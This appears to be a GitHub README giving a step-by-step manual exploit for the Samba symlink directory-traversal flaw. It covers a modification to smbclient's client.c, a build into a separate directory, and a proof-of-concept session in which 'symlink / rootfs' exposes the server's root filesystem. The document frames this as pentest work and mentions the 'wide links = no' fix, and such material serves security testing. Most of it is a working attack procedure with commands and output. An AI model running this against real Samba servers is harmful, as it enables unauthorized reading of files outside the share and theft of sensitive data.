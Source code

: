 # Symlink-Directory-Traversal-smb-manually


Samba symlink traversal manual exploit

### Introduction 

Samba is prone to a directory-traversal vulnerability because the application fails to sufficiently sanitize user-supplied input, Exploits would allow an attacker to access files outside of the Samba user's 	root directory to obtain sensitive information and perform other attacks.
Administrators should be careful and set 'wide links = no' in the '[global]' section of 'smb.conf.
 
A proof of concept of Symlink Directory Traversal on Samba, here i will explain how to install the smbclient on an external location to use for the exploitation and also what to change.

The original Manually exploitation explained in the link ( https://www.exploit-db.com/exploits/33599) doesn't work without adding an other code line in the client.c

### First step

We have to download a samba source code from the forge, i used the version 3.4.5, here you can find the download link ( https://download.samba.org/pub/samba/stable/)

```
$ tar -xvzf samba-3.4.5.tar.gz
$ cd samba-3.4.5/source3/client/
```
	

### Modification of client.c

You have to modify this file like in the url  ( https://www.exploit-db.com/exploits/33599) and also adding the line like below :

*************
	targetname = talloc_asprintf(ctx,"%s",buf);   // Add this to remove the prepending //host/share 
	if (!cli_unix_symlink(targetcli, targetname, newname)) {
		d_printf("%s symlinking files (%s -> %s)\n",
			cli_errstr(targetcli), newname, targetname);
		return 1;
	}
**********************
You can show the client.c symlink section after modification in the screen below.
Save it , and you have to install the package.

### Install Package externally to use for your pentest tests

In my case i want to use this  smb client modified version just for my pentest tests, so the idea is to install it in a directory instead of a global installation.

We will use the configure file to create our Makefile with the dir installation location like :
```
$ cd samba-3.4.5/source3/
$ ./configure --prefix=/path/to/destination/directory/installation
$ make && make install
$ cd /path/to/destination/directory/installation/bin
```

We have to specify the library location in our bash env like :

```
$ export LD_LIBRARY_PATH="/path/to/destination/directory/installation/lib:$LD_LIBRARY_PATH"
```
And finnaly run smbclent :

```
$ ./smbclient //192.169.1.12/Share_Name -N

```
### Proof of concept

```
$ ./smbclient //192.169.1.12/Share_Name -N

smb: \> posix
Server supports CIFS extensions 1.0
Server supports CIFS capabilities acls pathnames
smb: \> ls
  .                                   D        0  Sun Jan 13 15:13:58 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
		61335 blocks of size 131072. 50251 blocks available

smb: /> symlink / rootfs
smb: /> ls
  .                                   D        0  Sun Jan 13 15:54:10 2019
  ..                                  D        0  Sun Jan 13 15:14:18 2019
  rootfs                              D        0  Wed Aug 26 11:54:18 2009

		61335 blocks of size 131072. 50251 blocks available
smb: /> cd rootfs/
smb: /rootfs/> ls
  .                                   D        0  Wed Aug 26 11:54:18 2009
  ..                                  D        0  Wed Aug 26 11:54:18 2009
  cdrom                               D        0  Thu Sep  6 01:43:19 2007
  var                                 D        0  Thu Sep  6 01:45:53 2007
  selinux                             D        0  Wed Mar  7 23:56:09 2007
  home

```

